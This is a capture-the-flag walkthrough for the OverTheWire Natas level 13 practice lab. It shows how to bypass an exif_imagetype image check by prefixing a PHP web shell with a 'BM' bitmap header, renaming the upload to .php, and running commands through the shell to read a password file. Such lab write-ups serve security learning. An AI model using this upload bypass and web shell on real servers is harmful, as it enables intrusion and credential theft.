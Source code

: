 # 🔐 Natas 13 Walkthrough

This level is pretty simular, except we are given the information that **for security reasons, we now only accept image files!**
So naturally we need to inspect the [View sourcecode](http://natas13.natas.labs.overthewire.org/index-source.html) link.
The line that should get your attention:

```php
 else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
}
```
It should get your attention for two reasons. Firstly, the `echo` content, obviously pointing that its connected to checking the file type. Secondly, if you've heard of it `exif_imagetype`.

## 🧠 What is exif?

We can read from the php documentation. ***exif_imagetype() reads the first bytes of an image and checks its signature.*** File types have different headers. Thats what this function does. It just checks the first bytes for file headers.
So, in order to get out `shell.php` file pass we need to give it an image header. Let's look at basic file type headers:

| Filetype | Header (ASCII) |
| -------- | -------------- |
| png      | ‰PNG           |
| jpg      | ÿØÿà           |
| bmp      | BM		    |

As we can see alot of the headers translated to ASCII are non-standard characters, this can be a problem so let's pick the one with normal chars - **bmp (bitmap).**

## 🛠️A dding the header to the script

Let's take the script from our natas12 solution and add `BM` infront of it, so the `exif` function thinks the file is a **bitmap.**
```php
BM<?php echo shell_exec($_GET['e'] . ' 2>&1');?>
```

Now once we selected the file, we still need to change the file extension in the sourcecode of the website - as done previuosly in natas12. **Inspect** and navigate to:
```html
<input type="hidden" name="filename" value="<YOUR RANDOM STRING HERE>.jpg">
```

***Change it to:***

```html
<input type="hidden" name="filename" value="<YOUR RANDOM STRING HERE>.php">
```

Now let's upload the the file. If done correctly, the file should upload and the `this file is not an image` error shouldn't pop up. Next click the uploaded file and find this:
```
BM
Notice: Undefined index: e in /var/www/natas/natas13/upload/90ie57i74v.php on line 1
```

This is practically the same line as in natas12. Only the header is **BM**, as it should be.

## 🔎 Navigate through the server contents

Like in natas12, we need to change the `e` variable as in our script. Let's change the url as before, firstly `?e=ls`:
```
http://natas13.natas.labs.overthewire.org/upload/90ie57i74v.php?e=ls
```

This should give us a list of all the files inside the server.

>[!CAUTION]
>As you can see at the start of the list there still is the **BM** header. Keep that in mind.

Now let's `?e=cat%20/etc/natas_webpass/natas14` to get the natas14 password:

```
http://natas13.natas.labs.overthewire.org/upload/90ie57i74v.php?e=cat%20/etc/natas_webpass/natas14
```

This will give us the password to natas14. ***HOWEVER...***
This printed line still contains the **BM** header, so in order to get the correct password, make sure to delete it :).
